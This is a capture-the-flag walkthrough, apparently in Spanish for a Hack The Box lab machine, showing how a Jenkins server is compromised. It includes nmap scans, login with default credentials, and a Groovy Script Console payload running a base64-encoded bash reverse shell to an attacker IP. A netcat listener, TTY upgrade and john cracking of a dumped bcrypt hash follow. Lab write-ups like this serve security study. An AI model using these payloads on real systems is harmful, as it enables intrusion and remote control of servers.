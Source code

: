 🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.198.27

PING 10.129.198.27 (10.129.198.27) 56(84) bytes of data.
64 bytes from 10.129.198.27: icmp_seq=1 ttl=63 time=164 ms

--- 10.129.198.27 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 164.308/164.308/164.308/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vvv 10.129.198.27 -oG openPorts

PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 8080 -sCV 10.129.198.27 -oN targeted

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

| Puerto | Servicio | Versión                |
| ------ | -------- | ---------------------- |
| 8080   | http     | Jetty 9.4.39.v20210325 |

🗹 Probar las credenciales `root` para el campo `Username` y `password` para el campo `Password`.

🗹 Dentro del dashboard, en la opción **Manage Jenkins**, **Script Console** crear el siguiente script:

```shell
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS44MS8xMjM0IDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

🗹 Crear por consola la reverse shell incluyendo la IP atacante y el puerto que va a estar en escucha para recibir la reverse shell e incluirla dentro del script:

```shell
echo "bash -c 'bash -i >& /dev/tcp/10.10.15.81/1234 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS44MS8xMjM0IDA+JjEnCg==
```

🗹 Ponerse en escucha en la máquina atacante `nc -lnvp 1234`.

🗹 Una vez establecida la conexión con el servidor configurar la terminal y personalizar el entorno de la terminal:

```shell
script /dev/null -c bash

ctrl + z

stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 183
```
## Flag

🗹 La flag se encuentra en el directorio `/root/flag.txt`.

## Cositas aprendidas

🗹 En el servidor, en el directorio `/var/lib/jenkins/users/root_5662950835086884594` dentro del archivo `config.xml` están configuradas las credenciales:

```shell
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>root</id>
  <fullName>Administrator</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.3.15">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash"/>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.82">
      <triggers/>
    </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.3.4">
      <providerId>default</providerId>
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <jenkins.security.seed.UserSeedProperty>
      <seed>6f5f3cc26dcb738e</seed>
    </jenkins.security.seed.UserSeedProperty>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.model.TimeZoneProperty/>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$bPGCZ8xst4W7TIH9VbC.9.djeZCRSzadagQ6y6tZvmdulxzxkQzkq</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.33">
      <emailAddress>admin@pennyworth.htb</emailAddress>
    </hudson.tasks.Mailer_-UserProperty>
    <jenkins.security.ApiTokenProperty>
      <tokenStore>
        <tokenList/>
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1615542792511</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
```

Usando la utilidad `john` se puede ver el contenido del hash de la contraseña:

```shell
echo '$2a$10$bPGCZ8xst4W7TIH9VbC.9.djeZCRSzadagQ6y6tZvmdulxzxkQzkq' > hash

❯ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (?)     
1g 0:00:00:00 DONE (2024-03-16 12:57) 1.851g/s 66.66p/s 66.66c/s 66.66C/s 123456..liverpool
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```